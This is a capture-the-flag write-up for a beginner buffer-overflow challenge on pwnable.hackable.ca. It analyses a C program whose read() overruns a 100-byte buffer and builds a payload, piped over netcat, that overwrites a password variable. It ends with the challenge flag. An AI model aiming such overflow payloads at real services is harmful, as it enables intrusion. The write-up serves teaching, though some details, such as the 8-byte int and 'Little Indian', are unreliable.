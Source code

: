 This is the first chanllenge in the pwnables category:

The challenge is asking you to connect to `nc pwnable.hackable.ca 9993` that runs an executable that asks you to `Enter your name`, and based on your answer it should give you the correct flag.

The sourcecode of the executable is given in the challenge, (buffer_overflow1.c)


# Solution

1. Analyzing code
2. Compiling the code
3. Crafting our buffer overflow input

## 1. Analyzing code
Looking at the sourcecode we notice that this is an easy buffer overflow example.

1. It creates an integer variable `password` and saves in it the hex value `0xcafebabe`. It also creates a string variable `your_name` of size 100. 

```
int password = 0xcafebabe;
char your_name[100] = {0};
```
2. It prints `Enter your name` and reads the input into the variable `your_name`
```
printf("Enter your name\n");
fflush(stdout);
read(0, your_name, 0x100);
```
3. Then it compares the variable `password` to the value `0xdeadbeef` and if correct it will print the FLAG if not it asks to try again and exits.
```
if(password == 0xdeadbeef) {
    puts("GOOD WORK!\n");
    puts("FLAG{**********************}");
}
else {
    puts("Nice try :( Your name didn't meet my expectations\n");
}
```

>if we make some research about the `read` function in C we find that read() don't work with strings, but with buffers, and as such it doesn't need to know their contents, just their size. As long as it only uses the buffer, there won't be any overrun problems. The problem may come if you later treat that buffer as a string. In that case, you will most probably overrun it.


we also notice that in the `read` function it reads `0x100` bytes which is `256` bytes, however the variable `your_name` is only 100 bytes long. This means that the `read` function can lead to a buffer overflow vulnerability.

## 2. Compiling the code
`gcc buffer_overflow1.c -o buffer_overflow1.exe -fno-stack-protector -z execstack -no-pie`

we use `-fno-stack-protector -z execstack -no-pie` to ensure no stack protection is running so our exploit can run.

## 3. crafting our buffer overflow input
To solve this challenge we need to change the value of the password variable to `0xdeadbeef` to do this we need to use the `read` function to overwrite the stack space of the variable `password`.

The stack has the variable `password` with length 8 bytes on top of it (remember: stack addresses are flipped) the `your_name` variable with length of 100 bytes. So we need to enter 100 bytes then our new password value of `0xdeadbeef`.

```
+++++++++++++++++++++++++++++++++
+           +                   +
+           +                   +
+    100    +    your_name      +
+   bytes   +                   +
+           +                   +
+           +                   +
+++++++++++++++++++++++++++++++++
+    8      +    password       +
+   bytes   +                   +
+++++++++++++++++++++++++++++++++
```

>Note that: the variable `passowrd` is in hex and we read it in Little Indian from right to left.


To craft our malformed input, we use python as follows:
```
print('A'*100+'\xef\xbe\xad\xde')`
>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
```
>Note: To not get confused with the hex to ASCII conversion, we can just enter the hex value as `\xXX` to python and it will automatically make the conversion for us.
>Note: The special chars at the end representing the hex value `0xdeadbeef`

By entering this value into the program, it gives the FLAG.

# One line command:
`python -c "print('A'*100+'\xef\xbe\xad\xde')" | nc pwnable.hackable.ca 9993`

#FLAG:
```FLAG{0v3rfl0w5_ar3_fun}```
